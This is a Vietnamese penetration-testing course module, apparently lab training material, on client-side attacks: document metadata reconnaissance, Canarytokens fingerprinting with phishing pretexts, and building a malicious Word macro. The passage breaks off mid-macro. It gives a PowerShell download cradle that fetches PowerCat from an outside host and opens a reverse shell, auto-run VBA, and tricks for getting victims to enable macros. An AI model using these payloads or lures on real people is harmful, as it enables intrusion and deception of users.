

# Client-side Attacks

# Client-side Attacks

---

Trong Module học này, chúng ta sẽ tìm hiểu các đơn vị học sau:

- Target Reconnaissance
- Exploiting Microsoft Office
- Abusing Windows Library Files

Trong các bài kiểm thử thâm nhập (penetration tests), chúng ta có thể được khách hàng giao nhiệm vụ vượt qua vùng biên (perimeter) của doanh nghiệp và chiếm được vị trí ban đầu bên trong mạng. Với mô hình tấn công truyền thống, ta sẽ liệt kê các máy có thể truy cập của khách hàng và cố gắng khai thác các dịch vụ của họ. Tuy nhiên, việc vượt qua vùng biên bằng cách khai thác các lỗ hổng kỹ thuật ngày càng hiếm và khó hơn theo một báo cáo từ Verizon. Báo cáo cho biết Phishing là vector tấn công lớn thứ hai được sử dụng để vượt qua vùng biên, chỉ đứng sau các cuộc tấn công bằng credential.

Phishing thường tận dụng các client-side attacks. Loại tấn công này hoạt động bằng cách gửi các file độc hại trực tiếp tới người dùng. Khi họ chạy các file này trên máy của mình, ta có thể chiếm được vị trí trong mạng nội bộ. Client-side attacks thường khai thác điểm yếu hoặc chức năng trong phần mềm và ứng dụng cục bộ như trình duyệt, các thành phần hệ điều hành hoặc các chương trình office. Để thực thi mã độc trên hệ thống của khách hàng, ta thường phải thuyết phục, lừa hoặc đánh lừa người dùng mục tiêu.

Khái niệm về sự đánh lừa này rất quan trọng đối với chúng ta khi làm penetration testers. Nó đặt ra câu hỏi: ta đang đánh lừa ai? Ta đang cố gắng thuyết phục ai? Client-side attacks cho phép ta xem xét các lỗ hổng, định kiến và sự dễ tổn thương vốn có ở con người, không chỉ ở máy tính hay mạng. Điều này ngụ ý rằng để trở thành kẻ tấn công tốt nhất, ta không chỉ phải giỏi các kỹ năng kỹ thuật như quản trị hệ thống và mạng (ví dụ), mà còn phải phát triển kiến thức về tâm lý học con người, văn hóa doanh nghiệp và các chuẩn mực xã hội.

Khi sử dụng client-side attacks trong penetration tests, ta cũng phải cân nhắc khía cạnh đạo đức khi nhắm vào người dùng. Mục tiêu của ta không chỉ là để thực thi mã trên hệ thống của họ, mà còn không được vượt qua các ranh giới đạo đức hoặc pháp lý như tống tiền nhân viên hay giả danh cảnh sát.

Vì máy của khách hàng trong mạng nội bộ doanh nghiệp thường không phải là hệ thống truy cập trực tiếp, và cũng hiếm khi cung cấp dịch vụ lộ ra bên ngoài, loại vector tấn công này rất khó để giảm thiểu và đặc biệt tinh vi. Những cuộc tấn công này đã thúc đẩy việc áp dụng các mô hình phòng thủ mới.

Client-side attacks thường sử dụng các cơ chế phát tán và payload kết hợp cụ thể, bao gồm các file đính kèm email hoặc liên kết tới các trang web hay file độc hại. Chúng ta thậm chí có thể tận dụng các cơ chế phát tán tiên tiến hơn như USB Dropping hoặc watering hole attacks.

Dù chọn cơ chế phát tán nào, ta thường phải chuyển payload tới mục tiêu trong mạng nội bộ không định tuyến (non-routable), vì các hệ thống client hiếm khi lộ ra ngoài.

Việc gửi payload qua email ngày càng khó do các bộ lọc spam, firewall và các công nghệ bảo mật khác quét email để phát hiện liên kết và file đính kèm.

Khi chọn vector tấn công và payload, ta phải thực hiện reconnaissance trước để xác định hệ điều hành của mục tiêu cũng như các ứng dụng đã cài đặt. Đây là bước quan trọng đầu tiên, vì payload phải phù hợp với khả năng của mục tiêu. Ví dụ, nếu mục tiêu chạy hệ điều hành Windows, ta có thể dùng nhiều client-side attacks như mã độc JScript được thực thi qua Windows Script Host hoặc các file shortcut .lnk trỏ đến tài nguyên độc hại. Nếu mục tiêu đã cài Microsoft Office, ta có thể tận dụng các tài liệu có macro độc hại nhúng bên trong.

Trong Module này, ta sẽ học cách thực hiện reconnaissance với mục tiêu, đi qua các kịch bản khai thác tài liệu Microsoft Office độc hại và tận dụng các Windows Library files.

---

# 1. Target Reconnaissance

---

Đơn vị học này bao gồm các mục tiêu học tập sau:

- Thu thập thông tin để chuẩn bị cho các client-side attacks
- Tận dụng client fingerprinting để thu thập thông tin

Trước khi thực hiện client-side attack, điều quan trọng là phải xác định được người dùng tiềm năng để nhắm tới và thu thập càng nhiều thông tin chi tiết về hệ điều hành cũng như phần mềm ứng dụng đã cài đặt càng tốt. Điều này giúp tăng khả năng thành công của cuộc tấn công. Chúng ta có thể xác định những người dùng này bằng cách duyệt website công ty và tìm điểm liên hệ hoặc sử dụng các kỹ thuật thu thập thông tin thụ động để tìm nhân viên trên mạng xã hội.

Khác với reconnaissance mạng truyền thống thực hiện trực tiếp trên hệ thống mục tiêu, chúng ta thường không có kết nối trực tiếp với mục tiêu trong client-side attack. Thay vào đó, ta phải dùng phương pháp linh hoạt và sáng tạo hơn.

Trong đơn vị học này, ta sẽ khám phá các kỹ thuật thu thập thông tin đặc thù này và thảo luận về các vector social engineering được thiết kế để liệt kê hiệu quả các chi tiết của hệ thống mục tiêu.

---

## 1.1. Thu thập thông tin

---

Trong phần này, chúng ta sẽ thảo luận về các phương pháp khác nhau để liệt kê phần mềm đã cài đặt trên mục tiêu mà không cần tương tác trực tiếp với máy mục tiêu. Các kỹ thuật này phù hợp nhất trong các tình huống mà ta không có cách nào để tương tác với mục tiêu. Vì không tương tác trực tiếp với mục tiêu, chúng ta sẽ không kích hoạt các hệ thống giám sát hoặc để lại dấu vết pháp y (forensic) cho cuộc điều tra của mình.

Một cách tiếp cận là kiểm tra các thẻ metadata của các tài liệu công khai liên quan đến tổ chức mục tiêu. Mặc dù dữ liệu này có thể bị làm sạch thủ công, nhưng thường thì không được làm như vậy. Những thẻ này (được phân loại theo nhóm thẻ) có thể bao gồm nhiều thông tin về tài liệu như tác giả, ngày tạo, tên và phiên bản phần mềm được dùng để tạo tài liệu, hệ điều hành của client, và nhiều thông tin khác.

Trong một số trường hợp, thông tin này được lưu trữ rõ ràng trong metadata, và trong một số trường hợp khác thì được suy luận, nhưng dù bằng cách nào thì thông tin cũng có thể khá tiết lộ, giúp ta xây dựng một hồ sơ chính xác về phần mềm đã được cài trên các client trong tổ chức mục tiêu. Cần lưu ý rằng kết quả có thể lỗi thời nếu ta kiểm tra các tài liệu cũ. Ngoài ra, các chi nhánh khác nhau của tổ chức có thể dùng phần mềm hơi khác nhau.

Mặc dù đây là phương pháp "không tiếp xúc trực tiếp" để thu thập dữ liệu, nhưng đổi lại là ta có thể không thu thập được thông tin chính xác hoàn toàn. Tuy nhiên, phương pháp này vẫn khả thi và hiệu quả.

Hãy xem xét một số tài liệu mẫu để minh họa cho việc phân tích metadata.

Chúng ta sẽ tận dụng một số kỹ thuật đã học trong Module Thu thập Thông tin. Ví dụ, ta có thể dùng Google dork kiểu site:example.com filetype:pdf để tìm file PDF trên trang web của mục tiêu. Nếu muốn nhắm vào một chi nhánh hoặc địa điểm cụ thể, ta có thể thêm từ khóa để thu hẹp kết quả.

Nếu muốn tương tác với website của mục tiêu, ta cũng có thể dùng các công cụ như gobuster với tham số -x để tìm các file có đuôi nhất định trên website. Cách này gây ra nhiều tiếng ồn và sẽ sinh ra các bản ghi trên máy chủ mục tiêu. Ta cũng có thể duyệt website để tìm các thông tin cụ thể phục vụ tấn công client-side, nhưng phần này sẽ không đề cập sâu trong mục này.

Giờ ta sẽ thực hành tìm kiếm và tải các tài liệu từ trang Mountain Vegetables. Mở Firefox và truy cập [http://192.168.50.197](http://192.168.50.197/).



*Hình 1: Mountain Vegetables Single Page Application*

Hình 1 cho thấy trang đích của website. Văn bản trên trang ghi rằng website đang trong quá trình phát triển. Cuộn trang và rê chuột vào các nút bấm, ta thấy một liên kết để tải brochure.


*Hình 2: Tải Brochure PDF*

Khi nhấn vào CURRENT, Firefox sẽ mở tài liệu trong tab mới để ta có thể tải về.

Để hiển thị metadata của bất kỳ file nào được hỗ trợ, ta có thể dùng exiftool. Câu lệnh ta dùng là -a để hiển thị các thẻ trùng lặp và -u để hiển thị các thẻ không xác định cùng với tên file brochure.pdf:

```bash
kali@kali:~$ cd Downloads

kali@kali:~/Downloads$ exiftool -a -u brochure.pdf
ExifTool Version Number         : 12.41
File Name                       : brochure.pdf
Directory                       : .
File Size                       : 303 KiB
File Modification Date/Time     : 2022:04:27 03:27:39-04:00
File Access Date/Time           : 2022:04:28 07:56:58-04:00
File Inode Change Date/Time     : 2022:04:28 07:56:58-04:00
File Permissions                : -rw-------
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 4
Language                        : en-US
Tagged PDF                      : Yes
XMP Toolkit                     : Image::ExifTool 12.41
Creator                         : Stanley Yelnats
Title                           : Mountain Vegetables
Author                          : Stanley Yelnats
Producer                        : Microsoft® PowerPoint® for Microsoft 365
Create Date                     : 2022:04:27 07:34:01+02:00
Creator Tool                    : Microsoft® PowerPoint® for Microsoft 365
Modify Date                     : 2022:04:27 07:34:01+02:00
Document ID                     : uuid:B6ED3771-D165-4BD4-99C9-A15FA9C3A3CF
Instance ID                     : uuid:B6ED3771-D165-4BD4-99C9-A15FA9C3A3CF
Title                           : Mountain Vegetables
Author                          : Stanley Yelnats
Create Date                     : 2022:04:27 07:34:01+02:00
Modify Date                     : 2022:04:27 07:34:01+02:00
Producer                        : Microsoft® PowerPoint® for Microsoft 365
Creator                         : Stanley Yelnats
```

*Listing 1 - Hiển thị metadata cho brochure.pdf*

Kết quả trả về rất nhiều thông tin. Với chúng ta, các thông tin quan trọng nhất bao gồm ngày tạo file, ngày chỉnh sửa cuối cùng, tên tác giả, hệ điều hành và ứng dụng được dùng để tạo file.

Phần Create Date và Modify Date cho biết độ tuổi tương đối của tài liệu. Vì các ngày này khá gần đây (tính đến thời điểm viết), ta có thể tin tưởng cao rằng đây là nguồn metadata đáng tin cậy.

Phần Author cho biết tên một nhân viên nội bộ. Ta có thể dùng kiến thức về người này để thiết lập mối quan hệ tin tưởng tốt hơn bằng cách đề cập tên họ một cách ngẫu nhiên trong email hoặc cuộc gọi điện thoại nhắm mục tiêu. Điều này đặc biệt hữu ích nếu người này không có hồ sơ công khai lớn.

Kết quả cũng cho thấy PDF được tạo bởi Microsoft PowerPoint cho Microsoft 365. Đây là thông tin quan trọng để lên kế hoạch tấn công client-side vì giờ ta biết mục tiêu dùng Microsoft Office và vì không thấy nhắc tới "macOS" hay "for Mac" trong bất kỳ thẻ metadata nào, rất có khả năng Windows được sử dụng để tạo tài liệu này.

Bây giờ ta có thể tận dụng các vector tấn công client-side từ các thành phần hệ thống Windows đến các tài liệu Office độc hại.

---

## 1.2. Client Fingerprinting

---

Trong phần này, chúng ta sẽ thảo luận về Client Fingerprinting, còn được gọi là Device Fingerprinting, nhằm thu thập thông tin về hệ điều hành và trình duyệt của mục tiêu trong một mạng nội bộ không định tuyến. Ví dụ, ta có thể được yêu cầu thiết lập foothold ban đầu vào mạng mục tiêu trong một bài penetration test. Giả sử trước đó ta đã lấy được địa chỉ email của một mục tiêu tiềm năng bằng công cụ theHarvester. Là một client-side attack, ta có thể sử dụng một HTML Application (HTA) đính kèm email để thực thi mã trong ngữ cảnh của Internet Explorer và ở một mức độ nào đó là Microsoft Edge. Đây là một attack vector rất phổ biến để giành foothold ban đầu trong mạng mục tiêu và được sử dụng bởi nhiều threat actor và nhóm ransomware.

Trước khi thực hiện bước này, ta cần xác nhận rằng mục tiêu đang chạy Windows và Internet Explorer hoặc Microsoft Edge đang được bật.

Ta sẽ sử dụng Canarytokens, một dịch vụ web miễn phí tạo ra một liên kết có token nhúng bên trong và ta sẽ gửi liên kết này cho mục tiêu. Khi mục tiêu mở liên kết bằng trình duyệt, ta sẽ nhận được thông tin về trình duyệt, địa chỉ IP, và hệ điều hành của họ. Với thông tin này, ta có thể xác nhận rằng mục tiêu chạy Windows và xác minh rằng ta nên triển khai HTA client-side attack.

Trước khi tạo tracking link, ta cần thảo luận ngắn về các pretext mà ta có thể sử dụng trong tình huống như thế này. Một pretext tạo ra bối cảnh theo một cách cụ thể. Trong đa số trường hợp, ta không thể đơn giản yêu cầu mục tiêu (một người lạ) nhấp vào liên kết bất kỳ trong một email ngẫu nhiên. Vì vậy, ta phải tạo ra ngữ cảnh phù hợp, có thể dựa trên vai trò công việc của mục tiêu.

Ví dụ, giả sử mục tiêu làm việc tại bộ phận tài chính. Trong trường hợp này, ta có thể nói rằng ta nhận được một hóa đơn nhưng nó chứa lỗi tài chính. Sau đó ta cung cấp một liên kết mà ta nói rằng nó mở ra ảnh chụp màn hình của hóa đơn với lỗi được đánh dấu. Tất nhiên, liên kết này chính là Canarytoken. Khi mục tiêu nhấp vào liên kết, IP logger tạo fingerprint của hệ thống mục tiêu và cung cấp cho ta thông tin cần thiết để chuẩn bị client-side attack. Mục tiêu sẽ luôn thấy một trang trắng khi họ mở liên kết.

Khi đã có pretext, ta tạo liên kết trong Canarytokens bằng cách mở trang tạo token trong trình duyệt.


*Hình 3: Canarytokens Landing Page*

Biểu mẫu web cung cấp menu thả xuống để chọn loại tracking token ta muốn tạo. Ta phải nhập một địa chỉ email để nhận cảnh báo hoặc cung cấp một webhook URL. Trong ví dụ này, ta chọn Web bug / URL token trong menu, nhập [https://example.com](https://example.com/) làm webhook URL, rồi nhập Fingerprinting làm phần comment. Sau khi nhập đủ thông tin, ta nhấn Create my Canarytoken.


*Hình 4: Enter example.com in web form*

Một trang mới hiện ra với cửa sổ màu xanh thông báo rằng web token của ta đã hoạt động:


*Hình 5: Active Canarytoken*

Trang này chứa tracking link mà ta có thể dùng để fingerprint mục tiêu. Nó cũng đưa ra các gợi ý về cách khiến mục tiêu nhấp vào liên kết.

Tiếp theo, ta nhấn Manage this token ở góc trên bên phải để mở phần cài đặt.


*Hình 6: Management of Canarytoken*

Token chưa được kích hoạt, điều này là bình thường vì ta vừa mới tạo nó. Trong ví dụ này, ta giữ nguyên cài đặt mặc định vì ta chỉ fingerprint mục tiêu, không nhúng token vào ứng dụng web hay trang web.

Sau đó ta nhấn History ở góc phải. Trang History hiển thị tất cả khách truy cập đã nhấp vào liên kết Canarytoken, kèm theo thông tin về hệ thống nạn nhân. Hiện tại danh sách trống.


*Hình 7: Canarytoken History*

Giả sử ta đã thuyết phục nạn nhân nhấp vào liên kết qua email dựa trên pretext đã chuẩn bị. Ngay khi họ nhấp vào liên kết, họ thấy trang trắng còn ta nhận được một mục mới trong danh sách lịch sử:


*Hình 8: Canarytoken with Entry*

Bản đồ bên trái hiển thị vị trí địa lý của nạn nhân. Ta có thể nhấp vào mục này để xem thêm thông tin:


*Hình 9: Detailed Information of Canarytoken Entry*

Phần trên của bảng chi tiết cung cấp thông tin về vị trí nạn nhân và cố gắng xác định tên tổ chức. User agent gửi bởi trình duyệt của nạn nhân cũng được hiển thị. Từ user agent, ta có thể suy luận hệ điều hành và trình duyệt. Tuy nhiên, user agent có thể bị chỉnh sửa nên không phải lúc nào cũng đáng tin cậy.

Trong ví dụ này, user agent cho thấy nạn nhân sử dụng trình duyệt Chrome trên Windows 10 64-bit. Ta cũng có thể dùng một công cụ phân tích user agent trực tuyến, công cụ này diễn giải chuỗi user agent và đưa ra kết quả dễ đọc hơn.

Tiếp theo, ta cuộn xuống phần Browser.


*Hình 10: Detailed Browser Information*

Hình 10 cho thấy các thông tin bổ sung về trình duyệt của nạn nhân. Thông tin này không đến từ user agent mà từ mã JavaScript fingerprinting nhúng trong trang Canarytoken. Dữ liệu này chính xác và đáng tin cậy hơn. Nó tiếp tục cho thấy rằng mục tiêu chạy Chrome trên Windows.

Dịch vụ Canarytokens cũng cung cấp các kỹ thuật fingerprint khác. Ta quay lại trang chính của Canarytokens để xem thêm.


                                                        *Hình 11: Other Canarytoken Methods*

Menu thả xuống cung cấp các tùy chọn để nhúng Canarytoken vào file Word hoặc PDF, giúp ta nhận thông báo khi nạn nhân mở file. Ta cũng có thể nhúng token vào hình ảnh - token sẽ kích hoạt khi hình ảnh được xem.

Ngoài ra, ta có thể dùng IP logger trực tuyến như Grabify hoặc thư viện fingerprinting JavaScript như fingerprint.js.

Trong phần này, ta đã trình diễn một kỹ thuật fingerprinting hiệu quả giúp lộ ra thông tin quan trọng về hệ thống mục tiêu. Đây là bước đầu rất quan trọng trong client-side attack. Mặc dù mục tiêu của ta là xác định xem mục tiêu có chạy Windows và có bật Internet Explorer hoặc Microsoft Edge hay không, ta chỉ xác định được rằng họ chạy Chrome trên Windows. Trong tình huống như vậy, ta nên sử dụng một client-side attack vector khác hoặc thay đổi pretext, ví dụ như nói rằng ảnh chụp chỉ xem được bằng Internet Explorer hoặc Microsoft Edge.

---

# 2. Exploiting Microsoft Office

---

Đơn vị học này bao gồm các mục tiêu học tập sau:

- Hiểu các biến thể của Microsoft Office client-side attacks
- Cài đặt Microsoft Office
- Tận dụng Microsoft Word Macros

Các ransomware attacks đã tăng mạnh trong những năm gần đây. Trong hầu hết các trường hợp, bước xâm nhập ban đầu liên quan đến một Microsoft Office macro độc hại. Đây là một attack vector phổ biến vì Office hiện diện ở khắp mọi nơi và các tài liệu Office thường được gửi qua email giữa đồng nghiệp với nhau.

Trong đơn vị học này, trước tiên chúng ta sẽ thảo luận về các yếu tố cần xem xét khi sử dụng tài liệu Office độc hại trong kịch bản client-side attack. Tiếp theo, chúng ta sẽ đi qua quá trình cài đặt Office và cuối cùng, chúng ta sẽ tạo một tài liệu Word độc hại được nhúng macros để lấy reverse shell.

---

## 2.1. Preparing the Attack

---

Trước khi bước vào phần thực hành của đơn vị học này, hãy thảo luận ba điểm quan trọng khi sử dụng tài liệu Office độc hại trong client-side attack.

Trước hết, chúng ta cần xem xét phương thức truyền tải tài liệu. Vì các macro độc hại đã quá phổ biến, nhà cung cấp email và hệ thống spam filter thường mặc định chặn toàn bộ tài liệu Microsoft Office. Do đó, trong đa số trường hợp chúng ta không thể chỉ gửi thẳng tài liệu độc hại dưới dạng tệp đính kèm. Hơn nữa, hầu hết chương trình anti-phishing đều nhấn mạnh sự nguy hiểm của việc bật macros trong tài liệu Office được gửi qua email.

Để truyền payload và tăng khả năng nạn nhân mở tài liệu, ta có thể dùng pretext và cung cấp tài liệu theo cách khác, chẳng hạn thông qua đường dẫn tải xuống.

Nếu ta gửi được tài liệu Office đến mục tiêu qua email hoặc link tải, tệp sẽ bị gắn Mark of the Web (MOTW). Các tài liệu Office bị gắn MOTW sẽ mở trong Protected View, trạng thái vô hiệu hóa mọi chỉnh sửa và chặn macro hoặc embedded objects. Khi nạn nhân mở tài liệu có MOTW, Office sẽ hiển thị cảnh báo kèm tùy chọn Enable Editing.


Khi nạn nhân bật editing, Protected View bị vô hiệu hóa. Do đó, cách vượt qua đơn giản nhất là thuyết phục họ bấm nút Enable Editing, ví dụ bằng cách làm mờ phần còn lại của tài liệu và yêu cầu họ nhấn để “mở khóa”.

Ta cũng có thể dựa vào các chương trình Office hỗ trợ macro khác không có Protected View, như Microsoft Publisher, nhưng phần mềm này ít khi được cài đặt.

Cuối cùng, ta phải xem xét thông báo của Microsoft về việc chặn macro theo mặc định. Thay đổi này ảnh hưởng đến Access, Excel, PowerPoint, Visio và Word. Microsoft đã áp dụng trong phần lớn các phiên bản Office, từ Office 2021 cho đến Office 2013. Ngày áp dụng cho từng kênh được liệt kê trên trang Microsoft Learn tương ứng.

Thông báo nêu rằng các macro trong tệp được tải qua Internet có thể không còn được kích hoạt chỉ bằng một cú nhấp. Ví dụ, khi người dùng mở tài liệu có macro, họ sẽ không còn thấy thông báo Enable Content:


Thay vào đó, họ sẽ nhận một thông báo mới với nút Learn More:


Nếu người dùng bấm Learn More, trang web của Microsoft sẽ giải thích rủi ro khi bật macro.

Microsoft cũng cung cấp hướng dẫn để mở khóa macro bằng cách chọn Unblock trong phần Properties của tệp.

Điều này có nghĩa là sau thay đổi này, ta phải thuyết phục người dùng tự tay bỏ chặn tệp qua checkbox trước khi macro độc hại có thể chạy.

Phần này đã trình bày các điểm quan trọng khi thực hiện tấn công dựa trên Microsoft Office. Ngoài ra, ta đã thảo luận thông báo của Microsoft mô tả việc thay đổi cách mở macro trong tệp được tải qua Internet, điều này có thể khiến các vector tấn công bằng tài liệu Office độc hại trở nên phức tạp hơn. Tuy nhiên, nếu ta liệt kê kỹ mục tiêu và xét đến thông tin trong phần này, khả năng thành công có thể tăng đáng kể.

Trước khi sang phần tiếp theo, hãy nhìn rộng hơn: dù đã triển khai nhiều biện pháp giảm thiểu và nâng cao nhận thức, Microsoft Office macros độc hại vẫn là một trong những client-side attacks được sử dụng phổ biến nhất. Ví dụ này phản ánh động lực cơ bản giữa defender và attacker: mỗi công nghệ hoặc biện pháp phòng thủ mới khiến attacker phải nghĩ ra attack vector và bypass mới. Điều này tạo ra vòng xoáy mà cả hai phía đều phải ngày càng tinh vi hơn theo thời gian. Với vai trò penetration tester, ta không bao giờ nên nản trước cơ chế phòng thủ mới mà hãy coi đó là cơ hội để sáng tạo ra các kỹ thuật tấn công tinh vi hơn.

---

## 2.2. Installing Microsoft Office

---

Phần này hướng dẫn cài đặt Microsoft Office trên máy OFFICE (VM #1). Ta sẽ kết nối qua RDP với username **offsec** và password **lab**.

Trên Windows 11, Network Level Authentication (NLA) được bật mặc định cho kết nối RDP. Vì OFFICE **không join domain**, công cụ *rdesktop* sẽ không kết nối được. Ta dùng **xfreerdp**, công cụ hỗ trợ NLA cho máy không join domain.

Sau khi kết nối, vào thư mục:

```
C:\tools\Office2019.img
```

Mở file IMG bằng cách double-click → Windows hỏi có muốn mở không → chọn **Open**. File IMG sẽ được mount như một CD ảo. Sau đó chạy **Setup.exe** để bắt đầu cài đặt.


*Figure 15: Microsoft Office 2019 installer*

Sau khi cài đặt xong, nhấn **Close** để thoát. Mở **Microsoft Word** từ Start Menu. Khi Word mở, một popup yêu cầu kích hoạt sẽ hiện ra → nhấn dấu **X** để dùng **7-day trial**.


*Figure 16: Product Key popup*

Tiếp đến là popup **License Agreement** → chọn **Accept**.


Tiếp theo là popup về **Privacy settings** → nhấn **Next**.

Ở cửa sổ kế tiếp, chọn:

**No, don't send optional data → Accept**


Cuối cùng nhấn **Done**, hoàn tất cài đặt.

Với Microsoft Word đã được cài đặt và cấu hình, ta có thể bắt đầu khám phá các kỹ thuật tận dụng Word cho mục đích **client-side code execution**.

---

## 2.3. Tận dụng Microsoft Word Macros

---

Các ứng dụng Microsoft Office như Word và Excel cho phép người dùng nhúng macro, là một chuỗi các lệnh và chỉ thị được nhóm lại để tự động thực hiện một tác vụ. Tổ chức thường sử dụng macro để quản lý nội dung động và liên kết tài liệu với nội dung bên ngoài.

Macro có thể được viết từ đầu bằng Visual Basic for Applications (VBA), một ngôn ngữ script mạnh với quyền truy cập đầy đủ vào các đối tượng ActiveX và Windows Script Host, tương tự như JavaScript trong các ứng dụng HTML.

Trong phần này, chúng ta sẽ dùng một macro nhúng trong Microsoft Word để khởi chạy reverse shell khi tài liệu được mở. Macro là một trong những vector tấn công phía client lâu đời và nổi tiếng nhất. Chúng vẫn hoạt động hiệu quả ngày nay, miễn là chúng ta tuân theo các lưu ý từ những phần trước và khiến nạn nhân bật macro.

Lưu ý rằng các vector tấn công phía client cũ hơn, bao gồm Dynamic Data Exchange (DDE) và nhiều phương pháp Object Linking and Embedding (OLE) không còn hoạt động tốt hiện nay nếu không sửa đổi đáng kể hệ thống mục tiêu.

Bắt đầu tạo macro trong Word. Chúng ta sẽ tạo một tài liệu Word trống với tên *mymacro* và lưu nó dưới định dạng .doc. Điều này quan trọng vì kiểu tệp .docx mới không thể lưu macro nếu không gắn kèm template chứa macro. Có nghĩa là ta có thể chạy macro trong tệp .docx nhưng không thể nhúng hoặc lưu macro trong tài liệu. Tức là macro không tồn tại lâu dài. Ngoài ra, ta cũng có thể dùng tệp .docm để nhúng macro.


***Figure 19: Saving Document as .doc***

Sau khi lưu tài liệu, chúng ta có thể bắt đầu tạo macro đầu tiên. Để mở menu macro, chọn tab **View** trên thanh menu và nhấn vào **Macros**:


***Figure 20: Macro Menu in View Ribbon***

Một cửa sổ mới hiện ra để quản lý macro. Nhập **MyMacro** vào phần Macro Name, sau đó chọn tài liệu *mymacro* trong danh sách **Macros in**. Đây là tài liệu chứa macro sẽ được lưu vào. Cuối cùng, nhấn **Create** để chèn bộ khung macro vào tài liệu.


***Figure 21: Create a macro for the current document***

Thao tác này mở cửa sổ **Microsoft Visual Basic for Applications**, nơi ta có thể phát triển macro từ đầu hoặc dùng khung macro đã chèn.


***Figure 22: Macro Editor***

Xem qua bộ khung macro. Thủ tục con (sub procedure) chính trong macro VBA bắt đầu bằng từ khóa **Sub** và kết thúc bằng **End Sub**. Đây là phần thân của macro.

Thủ tục con rất giống hàm trong VBA, nhưng khác ở chỗ thủ tục con không thể dùng trong biểu thức vì chúng không trả về giá trị, trong khi hàm thì có.

Lúc này, macro mới của ta, **MyMacro()**, chỉ là một thủ tục trống với vài dòng bắt đầu bằng dấu nháy đơn - ký hiệu comment một dòng trong VBA:

```vbnet
Sub MyMacro()
'
' MyMacro Macro
'
'

End Sub
```

***Listing 2 – Macro trống mặc định***

Trong ví dụ này, chúng ta sẽ tận dụng **ActiveX Objects**, cho phép truy cập lệnh hệ điều hành bên dưới. Điều này được thực hiện qua **WScript** bằng **Windows Script Host Shell object**.

Khi tạo đối tượng WScript.Shell bằng **CreateObject**, ta có thể gọi phương thức **Run** để chạy ứng dụng trên máy nạn nhân. Với macro đầu tiên, ta mở cửa sổ PowerShell. Mã macro như sau:

```vbnet
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"

End Sub
```

***Listing 3 – Macro mở powershell.exe***

Vì macro Office không tự động chạy, ta phải sử dụng macro dựng sẵn **AutoOpen** và sự kiện **Document_Open**. Các thủ tục này sẽ gọi thủ tục tùy chỉnh và chạy code khi tài liệu được mở. Chúng hơi khác nhau tùy Word và tài liệu được mở như thế nào. Mỗi cái xử lý những trường hợp mà cái kia không làm, nên ta dùng cả hai.

Code VBA cập nhật:

```vbnet
Sub AutoOpen()

  MyMacro

End Sub

Sub Document_Open()

  MyMacro

End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"

End Sub
```

***Listing 4 – Macro tự động chạy powershell.exe khi mở tài liệu***

Tiếp theo, nhấn **Save** trong cửa sổ VBA và đóng tài liệu. Khi mở lại, Word báo cảnh báo bảo mật rằng macro bị vô hiệu. Nhấn **Enable Content** để chạy macro.


***Figure 23: Microsoft Word Macro Security Warning***

Sau khi nhấn **Enable Content**, cửa sổ PowerShell hiện lên.


***Figure 24: Enabled Macro started a PowerShell window***

Như hình cho thấy, PowerShell được mở bởi macro - rất tốt!

Trong tình huống thực, nạn nhân phải nhấn **Enable Content**, nếu không tấn công thất bại. Ở môi trường doanh nghiệp, macro có thể bị vô hiệu hoàn toàn. Nhưng may mắn là macro vẫn được dùng phổ biến.

Giờ ta mở rộng macro để tạo reverse shell bằng **PowerCat**. Ta dùng PowerShell download cradle được mã hóa base64 để tải PowerCat và mở reverse shell. Lệnh PowerShell sẽ được lưu vào một biến dạng chuỗi trong VBA.

Lưu ý: VBA giới hạn 255 ký tự cho chuỗi literal, nên không thể nhúng lệnh base64 dài vào một chuỗi. Giới hạn này không áp dụng cho chuỗi trong biến, nên ta có thể chia và nối lại.

Click Macros > MyMacro > Edit để quay lại macro. Khai báo biến chuỗi **Str** bằng từ khóa **Dim**, dùng để chứa lệnh PowerShell cradle và lệnh reverse shell của PowerCat:

```vbnet
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

***Listing 5 – Khai báo biến chuỗi và truyền vào Run()***

Tiếp theo, ta dùng lệnh PowerShell tải PowerCat và chạy reverse shell. Đây là lệnh trước khi mã hóa base64:

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

***Listing 6 – PowerShell download cradle và PowerCat reverse shell***

Ta dùng script Python sau để chia lệnh base64 thành nhiều đoạn 50 ký tự và nối vào biến Str. Đảm bảo chuỗi base64 không có xuống dòng:

```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

***Listing 7 – Python chia chuỗi base64 thành đoạn nhỏ***

Sau khi chia, macro cập nhật như sau:

```vbnet
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String

    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
